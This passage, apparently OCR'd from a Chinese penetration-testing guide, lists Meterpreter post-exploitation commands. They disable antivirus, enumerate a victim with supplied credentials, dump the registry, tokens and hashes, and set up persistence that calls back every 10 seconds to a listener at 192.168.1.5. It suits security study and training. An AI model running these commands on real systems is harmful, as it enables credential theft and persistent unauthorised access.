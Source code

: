 +   `meterpreter > run killav`：禁用目标上作为服务运行的大部分杀毒软件。

+   `meterpreter > run remotewinenum -u administrator -p password123 -t 10.0.0.100`：通过`wmic`枚举受害者的系统信息。记录日志存储位置。

+   `meterpreter > run scraper`：抓取系统信息，包括整个注册表。

+   `meterpreter > run winenum`：这是一款非常详细的 Windows 枚举工具。它会导出令牌、哈希值等更多信息。

+   `meterpreter > run persistence -U -i 10 -p 443 -r 192.168.1.5`：配置我们的持久化 Meterpreter 会话，直到用户登录到远程系统并尝试每 10 秒通过 `192.168.1.5` 的 `443` 端口回连到我们的监听器。
